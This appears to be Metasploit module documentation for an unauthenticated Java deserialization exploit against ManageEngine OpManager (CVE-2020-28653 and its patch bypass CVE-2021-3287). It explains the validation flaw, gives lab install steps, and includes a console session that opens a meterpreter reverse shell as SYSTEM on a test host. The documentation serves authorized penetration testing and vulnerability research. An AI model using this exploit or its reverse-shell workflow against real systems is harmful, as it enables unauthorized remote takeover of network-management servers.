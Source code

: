 ## Vulnerable Application

### Description

An HTTP endpoint used by the Manage Engine OpManager Smart Update Manager component can be leveraged to deserialize an
arbitrary Java object. This can be abused by an unauthenticated remote attacker to execute OS commands in the context of
the OpManager application (NT AUTHORITY\SYSTEM on Windows or root on Linux). This vulnerability is also present in other
products that are built on top of the OpManager application. This vulnerability affects OpManager versions 12.1 -
12.5.328.

#### CVE-2020-28653
This vulnerability affects OpManager versions 12.1 - 12.5.232. The vulnerability involves sending a malicious PDU to the
SmartUpdateManager handler that when deserialized executes an arbitrary OS command.

#### CVE-2021-3287
This vulnerability is a patch bypass for CVE-2020-28653 and affects OpManager versions 12.5.233 - 12.5.328. When the
original vulnerability was patched, it was done so using a new `ITOMObjectInputStream` deserializer class. This object
has a flaw in its validation logic. The object works by requiring the caller to specify a list of one or more object
classes that can be deserialized. If an instance is used to perform more than one `readObject` call however, only the
first is protected because once a serialized object of an allowed type is read from the stream, the
`ITOMObjectInputStream` instance remains in a sort of authenticated state where subsequent objects can be read of any
type.

The exploit technique for this CVE leverages this by first sending a legitimate, serialized SUMPDU to create an instance
of the `SUMServerIOAndDataAnalyzer` object whose `process` method makes multiple `readObject` calls using the same
instance for each.

Unlike exploiting CVE-2020-28653, to exploit CVE-2021-3287 the target server must have the SUM server running. This is
not the case for the standard installer, but is the case for "Central" variant. Without the SUM server running, the log
handler is not initialized which causes the request handler to crash making the vulnerable code path inaccessible.

### Setup (Windows)

1. Download an affected version for either Windows or Linux from the [archive][0]
1. Run the installer executable
1. Accept the default values for all settings (skip registration), until the very end when prompted to start the
  application
1. Unselect the option to start the application
    1. If this option is missed, just navigate to the tray icon where it will say that it's starting and select the
      option to stop it
1. Start a command prompt as an administrative user
1. Navigate to `C:\Program Files\ManageEngine\OpManager\bin`, older versions use `C:\ManageEngine\OpManager\bin`
1. Run `run.bat`
1. View and accept the license terms
1. Press `f` to run the product in Free mode

OpManager should start successfully after a few minutes. At that point the service can be exploited. In this case the
session will be opened in the context of the user that ran the service with `run.bat`. Once the server is restarted and
OpManager starts automatically, the vulnerability can be exploited to open a session in the context of NT
AUTHORITY\SYSTEM.

### Setup (Linux)

1. Download an affected version for either Windows or Linux from the [archive][0]
1. Run the installer executable as root
1. Accept the default values for all settings (skip registration)
1. Navigate to `/opt/ManageEngine/OpManagerCentral/bin`, older versions use `/opt/ManageEngine/OpManager/bin`
1. Run `run.sh` as root

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/multi/http/opmanager_sumpdu_deserialization`
1. Set the `RHOSTS`, `TARGET`, `PAYLOAD` and payload-related options as necessary
1. Do: `run`
1. You should get a shell.

## Options

### CVE
Vulnerability to use. If set to 'Automatic' (the default), the module will attempt to detect the version and select the
correct vulnerability.

## Scenarios

### Windows Server 2019 x64 w/ ManageEngine OpManager v12.5.328

```
msf6 > use exploit/multi/http/opmanager_sumpdu_deserialization 
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/opmanager_sumpdu_deserialization) > set RHOSTS 192.168.159.96
RHOSTS => 192.168.159.96
msf6 exploit(multi/http/opmanager_sumpdu_deserialization) > set TARGET Windows\ PowerShell 
TARGET => Windows PowerShell
msf6 exploit(multi/http/opmanager_sumpdu_deserialization) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/opmanager_sumpdu_deserialization) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/opmanager_sumpdu_deserialization) > check
[*] 192.168.159.96:8060 - The target appears to be vulnerable.
msf6 exploit(multi/http/opmanager_sumpdu_deserialization) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] An HTTP session cookie has been issued
[*] Detected version: 12.5.328
[*] The request handler has been associated with the HTTP session
[*] Sending stage (200262 bytes) to 192.168.159.96
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.96:63887) at 2021-09-16 14:06:27 -0400

meterpreter > getuid
Server username: MSFLAB\smcintyre
meterpreter > sysinfo
Computer        : WIN-3MSP8K2LCGC
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 9
Meterpreter     : x64/windows
meterpreter > 
```

[0]: https://archives.manageengine.com/opmanager/
